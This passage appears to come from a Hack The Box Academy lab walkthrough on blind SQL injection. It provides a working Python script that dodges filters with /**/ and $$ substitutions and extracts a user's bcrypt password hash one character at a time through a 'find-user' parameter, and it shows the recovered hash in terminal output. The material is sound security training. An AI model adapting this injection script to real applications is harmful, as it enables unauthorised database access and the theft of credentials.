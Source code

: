 
Students will find that it is `60` characters long (as it is hashed with the [bcrypt algorithm](https://auth0.com/blog/hashing-in-action-understanding-bcrypt/)):

```
┌─[us-academy-1]─[10.10.15.70]─[htb-ac413848@htb-npmotne92n]─[~]
└──╼ [★]$ python3 poc.py 

60
```

Since the password's hash length is 60, students need to adapt the script to exfiltrate each character one by one, making sure that the ASCII encoded characters are decoded to their text representative:

Code: sql

```sql
SELECT ASCII(SUBSTRING(password, {i}, 1)) FROM users WHERE email = 'Amy.Mcwilliams@proton.me'
```

Code: python

```python
import requests
import re

def oracle(query):
    headers = {"Cookie": "auth=eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJCbHVlU2hhcmsiLCJpYXQiOjE2Nzk1MTgwODAsImV4cCI6MTY3OTUyNjcyMH0.TuiqKiE-w14RJUY1bxVrPHb7kLdpM5_HpS9cnDWZS8OfuEA4FMBE4AMTk7WJJw_o9z4DwExIbNeA_oIXSnmi5g"}
    whiteSpace = "/**/"
    singleQuote = "$$"
    baseURL = "http://STMIP:8080/find-user?u="
    SQLiPayload = (f''''{whiteSpace}AND{whiteSpace}id=({query.replace("'", singleQuote).replace(" ", whiteSpace)})--''')
    response = requests.get(baseURL + SQLiPayload, headers = headers)
    regex = r"(<a style=\"text-decoration:none; color: white\" href=\"/profile/)(.*?)(\">)"
    match = re.search(regex, response.text) 
    if match:
        return match.group(2)

passwordHash = ""
for i in range(1, 61):
    passwordHash += chr(int(oracle(f"SELECT ASCII(SUBSTRING(password, {i}, 1)) FROM users WHERE email = 'Amy.Mcwilliams@proton.me'")))
print(passwordHash)
```

After running the script, students will know that the password's hash of the user with the email `Amy.Mcwilliams@proton.me` is `$2b$12$XY8x59PEZ5YzV8a9O8V9uuxNadTgHRzu0RI9OaNet5k.mp3w7m3Tq`:

```
┌─[us-academy-1]─[10.10.15.70]─[htb-ac413848@htb-npmotne92n]─[~]
└──╼ [★]$ python3 poc.py

$2b$12$XY8x59PEZ5YzV8a9O8V9uuxNadTgHRzu0RI9OaNet5k.mp3w7m3Tq
```
